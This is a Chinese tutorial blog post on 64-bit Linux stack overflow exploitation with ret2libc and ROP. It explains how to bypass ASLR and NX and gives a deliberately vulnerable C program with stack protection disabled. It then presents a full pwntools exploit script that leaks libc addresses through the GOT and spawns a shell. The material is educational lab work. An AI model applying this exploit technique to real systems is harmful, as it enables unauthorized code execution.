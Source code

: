 ```yaml
---
title: 高级栈溢出及ret2libc
date: 2018-05-05 09:38:08
updated: 2018-05-05 09:38:08
tags:
- 安全
- 栈溢出
categories: 安全
keywords: 栈溢出 ret2libc rop
copyright: true
---
```


# 准备工作

> 实验环境：uname -a    64位 ubuntu 16.04
>
> Linux ubuntu 4.4.0-122-generic #146-Ubuntu SMP Mon Apr 23 15:34:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

* gdb-peda

```
$ git clone https://github.com/longld/peda.git ~/peda
$ echo "source ~/peda/peda.py" >> ~/.gdbinit 
```

* pwntools

```
$ pip install pwn
```

<!-- more -->

### 三种保护机制

- **ASLR** ：地址空间随机化，每次运行函数地址改变。

​        绕过：随机化只是将每次库函数加载地址随机，库函数间相对地址不变，因此通过GOT来泄漏库函数地址，  以推导出libc中其他函数（如system）的地址。

- **NX** ：通过在页表上设置NX(不可执行）位，将非代码段的地址空间设置成不可执行属性，一旦系统从这些地址空间进行取指令时，CPU就是报内存违例异常，进而杀死进程。栈空间也被操作系统设置了不可执行属性，因此普通的`shellode`注入无法执行。

​        绕过：`ret2libc` 利用已有代码，更改返回地址时返回到系统函数。

- **Cannary**  ： 通过在缓冲区和返回地址间插入一个`canary word` ，当缓冲区被溢出时，在返回地址被覆盖之前 canary word 会首先被覆盖。通过检查 canary word 的值是否被修改，就可以判断是否发生了溢出攻击。

​       暂时未研究如何绕过，因此使用`-fno-stack-protector` 标志关闭该安全保护机制。        

### ret2libc

**难点：** 

1. 由于ASLR机制，需要泄漏库函数地址以确定`system` 函数地址，本次结合`ROP` 使用`write` 函数获取`write` 函数实际地址。
2. 由于操作环境为64位`linux` ，函数通过`rdi,rsi,rdx,rcx,r8,r9` 以及栈传参，因此采用`pop,ret` 片段装填参数

​    本次实验结合了`ret2libc` 与`ROP` 两种手段，为简化操作，内置了需要的`gadget` 。

### 漏洞程序

```c
/*************************************************************************
    > File Name: vuln.c
    > Author: xsyin
    > Mail: shouyinXu@163.com 
    > Created Time: 2018年05月05日 星期六 14时24分14秒
    > Make: gcc -fno-stack-protector -g vuln.c -o vuln
 ************************************************************************/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void helper(){
	asm("pop %rdi; pop %rsi; pop %rdx; ret");
}

void vuln(){
	char buf[128];
	memset(buf,0,128);
	write(STDOUT_FILENO, "Enter input: \n",14);
	read(STDIN_FILENO, buf, 512);
}

int main(int argc, char const *argv[])
{
	vuln();
	return 0;
}
```

`read` 函数中允许写入521字节到一个只有128字节的缓冲区，明显的缓冲区溢出利用点。

* 寻找溢出点

![选区_065](选区_065.png)

![选区_066](选区_066.png)

溢出点在偏移136处，即`buf` 填充136之后为返回地址。

* 寻找需要的`gadget` 片段

![选区_067](选区_067.png)

* 构造`payload` ：

```
#payload1 获取write函数实际地址
payload1 = "A" * 136  #截至返回地址前的缓冲区长度
payload1 += p64(pppr) #跳转到PPPR指令序列，为write函数赋值
payload1 += p64(0x1) #write函数的第一个参数，1表示输出到stdout
payload1 += p64(got_write) #write函数的第二个参数，表示要输出字符串的首地址
payload1 += p64(0x8) #write函数的第三个参数，表示要输出字符串的长度
payload1 += p64(plt_write) #调用write函数
payload1 += p64(vuln)      #继续调用vuln函数
```

由于`linux` 共享库的延迟绑定技术，函数第一次调用时填充`GOT`表，在运行到`read` 函数时`write` 函数`GOT` 表中已填入实际地址。`payload1` 读取该地址。

```
#payload2 跳转至库函数system
payload2 = "A" * 136   #截至返回地址前的缓冲区长度
payload2 += p64(pr)   #跳转到PR指令序列，填充system的第一个参数
payload2 += p64(binsh_addr)  #system函数的第一个参数/bin/sh
payload2 += p64(systemAddr)    #调用system函数
```

### 结果

![选区_068](选区_068.png)

退出报错，可以通过PPPR片段再次跳转到`exit` 函数正常退出。

### 总结

 **优点：**  通过`ret2libc` 与 `ROP` 绕过了ASLR与NX机制

**缺点：** 

 1.  未绕过GS机制，可通过更改`__stackchk_fail__`函数`GOT` 表项

2. 内置了需要的`gadget` ，可使用通用的片段，ret2csu
3. 需要知道 `libc` 路径及版本，可通过pwntools提供的DynELF模块来进行内存搜索

### 利用程序

```python
#!/usr/bin/python
# -*- coding:utf-8 -*-
# file: exploit.py

from pwn import *
import struct

elf = ELF('vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./vuln')

pppr = 0x4005ba
pr = 0x400693

plt_write = elf.symbols['write']
got_write = elf.got['write']

libc_write = libc.symbols['write']
libc_system = libc.symbols['system']
print "libc_system: "+hex(libc_system)

vuln = elf.symbols['vuln']

payload1 = "A" * 136
payload1 += p64(pppr)
payload1 += p64(0x1)
payload1 += p64(got_write)
payload1 += p64(0x8)
payload1 += p64(plt_write)
payload1 += p64(vuln)

p.recvuntil("Enter input:")
print "################ send payload1 ###########"
p.send(payload1)
p.recv(8)

writeAddrTmp = struct.unpack('<Q', p.recv(8)[-8::])
writeAddr = writeAddrTmp[0]
print "writeAddr:", hex(writeAddr)

systemAddr = (writeAddr - libc_write) + libc_system
print "systemAddr:", hex(systemAddr)

binsh_addr = (writeAddr - libc_write) + next(libc.search('/bin/sh'))
print "binsh_addr:", hex(binsh_addr)

payload2 = "A" * 136
payload2 += p64(pr)
payload2 += p64(binsh_addr)
payload2 += p64(systemAddr)

p.recvuntil("Enter input:")

print "################ send payload2 ###########"
p.send(payload2)

p.interactive()
```



### 参考资料

[一步一步学ROP之linux_x64篇](https://jaq.alibaba.com/community/art/show?articleid=473)

